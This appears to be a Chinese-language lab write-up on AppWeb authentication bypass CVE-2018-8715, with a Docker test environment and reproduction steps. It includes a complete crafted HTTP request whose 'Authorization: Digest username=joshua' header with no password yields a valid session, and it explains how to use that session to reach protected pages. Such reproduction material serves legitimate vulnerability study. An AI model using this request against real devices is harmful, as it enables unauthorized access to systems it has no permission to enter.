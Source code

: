 # AppWeb认证绕过漏洞（CVE-2018-8715）

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

参考链接：

- https://ssd-disclosure.com/index.php/archives/3676
- https://github.com/embedthis/appweb/issues/610

## 漏洞环境

执行如下命令启动一个带有digest认证的appweb服务器：

```
docker-compose up -d
```

访问`http://your-ip:8080`，可见需要输入账号密码。

## 漏洞复现

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`joshua`。

构造头`Authorization: Digest username=joshua`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=joshua


```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![](1.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

![](2.png)
